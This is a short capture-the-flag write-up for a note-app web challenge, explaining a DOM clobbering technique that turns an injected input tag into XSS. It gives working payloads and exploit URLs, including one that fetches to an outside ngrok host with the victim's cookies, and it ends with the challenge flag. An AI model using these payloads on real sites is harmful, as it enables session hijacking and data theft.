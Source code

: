 # another note app

## Write-up (brief)

The attack is called DOM clobbering, the goal is to inject a seamingly harmless HTML tag with id `SECRET` so that `window.SECRET` becomes controllable in `js/secret.js` :

```javascript
var secret = window.SECRET || {
  hidden: true,
  value: "<img src=xss onerror=alert(1)>"
}

if (secret.hidden === false) {
  var output = document.getElementById("output")
  if (output !== null) {
    output.innerHTML += secret.value
  }
}
```

We need to set `SECRET.hidden` to `false` and `SECRET.value` to our XSS payload. We can do that by using the `input` tag for example, and with trial and error we can notice that omitting the `hidden` attribute makes `SECRET.hidden` `false`, so now we only need to put the XSS payload inside `SECRET.value`.

### Alert

- **Payload:** `<input id=SECRET value="<img src=xss onerror=alert(document.domain)>" />`
- **URL:** <http://another-note-app.web.ctf.shellmates.club/?note=%3Cinput+id%3DSECRET+value%3D%22%3Cimg+src%3Dxss+onerror%3Dalert%28document.domain%29%3E%22+%2F%3E>

### Get flag

- **Payload:** `<input id=SECRET value="<img src=xss onerror=fetch('http://f789-105-235-130-219.ngrok.io?a='+btoa(document.cookie))>" />`
- **URL:** <http://another-note-app.web.ctf.shellmates.club/?note=%3Cinput+id%3DSECRET+value%3D%22%3Cimg+src%3Dxss+onerror%3Dfetch%28%27http%3A%2F%2Ff789-105-235-130-219.ngrok.io%3Fa%3D%27%2Bbtoa%28document.cookie%29%29%3E%22+%2F%3E>

## Flag

`shellmates{U_c4nT_puRifY_4_Cl0Bb3R3D_DOM}`
